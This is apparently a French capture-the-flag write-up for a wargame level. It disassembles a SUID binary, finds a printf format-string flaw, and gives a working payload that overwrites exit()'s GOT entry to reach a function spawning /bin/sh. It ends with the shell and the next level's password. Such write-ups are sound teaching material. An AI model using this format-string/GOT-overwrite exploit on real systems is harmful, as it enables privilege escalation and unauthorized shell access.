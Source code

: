 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
  [...]
  ```
    - On a un binaire appartenant a level6 dans le home avec les droits SUID.

- `./level5`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level5`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484a4  o
      0x080484c2  n
      0x08048504  main
    [...]
    ```
    - on trouve une fonction n() et une fonction o() en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048504 <+0>:	push   ebp
       0x08048505 <+1>:	mov    ebp,esp
       0x08048507 <+3>:	and    esp,0xfffffff0
       0x0804850a <+6>:	call   0x80484c2 <n>
       0x0804850f <+11>:	leave
       0x08048510 <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire, alignement de la stack<br/><br/>
    - <+6>
      - Call la fonction n()<br/><br/>
    - <+11> ... <+12>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

  - `disas n`
    ```asm
    Dump of assembler code for function n:
       0x080484c2 <+0>:	push   ebp
       0x080484c3 <+1>:	mov    ebp,esp
       0x080484c5 <+3>:	sub    esp,0x218
       0x080484cb <+9>:	mov    eax,ds:0x8049848
       0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
       0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
       0x080484dc <+26>:	lea    eax,[ebp-0x208]
       0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
       0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
       0x080484ea <+40>:	lea    eax,[ebp-0x208]
       0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
       0x080484f3 <+49>:	call   0x8048380 <printf@plt>
       0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
       0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 536 octets pour la stack)<br/><br/>
    - <+9> ... <+35>
      - Stocke dans eax la valeur de l'adresse 0x8049848 dans le data segment register
        - `x/s 0x8049848`
          - `0x8049848 <stdin@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdin) dans la stack (à esp + 8)
      - Stocke 0x200 (512) dans la stack (à esp + 4)
      - Fait pointer eax sur ebp - 520
      - Stocke eax (l'adresse ebp - 520) dans la stack (à esp)
      - Call fgets() avec les arguments stockés dans la stack<br/><br/>
    - <+40> ... <+49>
      - Fait pointer eax sur ebp - 520 => l'adresse du retour de fgets()
      - Stocke eax (l'adresse du retour de fgets()) sur la stack (à esp)
      - Call printf avec l'argument stocké sur la stack<br/><br/>
    - <+54> ... <+61>
      - Stocke 0x1 (1) sur la stack
      - Call exit() avec l'argument stocké sur la stack

  - `disas o`
    ```asm
    Dump of assembler code for function o:
       0x080484a4 <+0>:	push   ebp
       0x080484a5 <+1>:	mov    ebp,esp
       0x080484a7 <+3>:	sub    esp,0x18
       0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
       0x080484b1 <+13>:	call   0x80483b0 <system@plt>
       0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
       0x080484bd <+25>:	call   0x8048390 <_exit@plt>
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 24 octets pour la stack)<br/><br/>
    - <+6> ... <+13>
      - Stocke la valeur de 0x80485f0 sur la stack (à esp)
        - `x/s 0x80485f0`
          ```
          0x80485f0:	 "/bin/sh"
          ```
      - Call system() avec l'argument stocké sur la stack (à esp)
    - <+17> ... <+18>
      - Réinitialisation de la mémoire, fin d'exécution
    - <+18> ... <+25>
      - Stocke 0x1 (1) sur la stack
      - Call _exit() avec l'argument stocké sur la stack

## Exploit

Ni main() ni n() n'appellent o(), dommage car il nous pop un shell.
On remarque également qu'il n'y a pas de return(), uniquement des call à exit() donc inutile de réécrire l'eip on va sortir sans y passer.
Il va falloir [remplacer l'adresse de la fonction exit() dans la Global Offset Table par l'adresse de la fonction o()](https://axcheron.github.io/exploit-101-format-strings/#code-execution-redirect) pour avoir notre shell.


- `objdump -R level5`
  ```
   OFFSET   TYPE              VALUE
  08049814 R_386_GLOB_DAT    __gmon_start__
  08049848 R_386_COPY        stdin
  08049824 R_386_JUMP_SLOT   printf
  08049828 R_386_JUMP_SLOT   _exit
  0804982c R_386_JUMP_SLOT   fgets
  08049830 R_386_JUMP_SLOT   system
  08049834 R_386_JUMP_SLOT   __gmon_start__
  08049838 R_386_JUMP_SLOT   exit
  0804983c R_386_JUMP_SLOT   __libc_start_main
  ```
  - l'adresse d'exit dans la GOT est `08049838`
- `gdb level5`
  - `info function o`
    ```
    All functions matching regular expression "o":

    Non-debugging symbols:
    0x080483c0  __gmon_start__
    0x080483c0  __gmon_start__@plt
    0x08048420  __do_global_dtors_aux
    0x080484a4  o
    0x080485a0  __do_global_ctors_aux
    ```
    - l'adresse de o() est 0x080484a4

  - `python -c 'print "AAAA" + "%x " * 10' | ./level5`
    ```
    AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825 78252078 20782520
    ```
    - On commence a lire notre format string dans la stack au 4eme argument donné à print.
  
  - `python -c 'print"\x38\x98\x04\x08 %4$p"' | ./level5"
    ```
    8 0x8049838
    ```

On va à nouveau se servir du modifier %n pour écrire l'adresse de o() dans l'adresse du exit(), pour ca on va mettre autant de padding que la représentation en int de o(), moins 4 octets pour l'adresse de exit():
- `python -c 'print"\x38\x98\x04\x08%1$" + str(int(0x080484a4) - 4) + "d%4$n"' > /tmp/exploit`
- `cat /tmp/exploit - | ./level5`<br/>
  <img src="https://vignette.wikia.nocookie.net/spongebob/images/f/f7/Two_hours_later.jpg/revision/latest?cb=20101111022814" style="width: 350px;"/><br/>
  ```
                                    512
                  
  ```
  - `whoami`
    ```
    level6
    ```
  - `cat /home/user/level6/.pass`
    ```
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ```

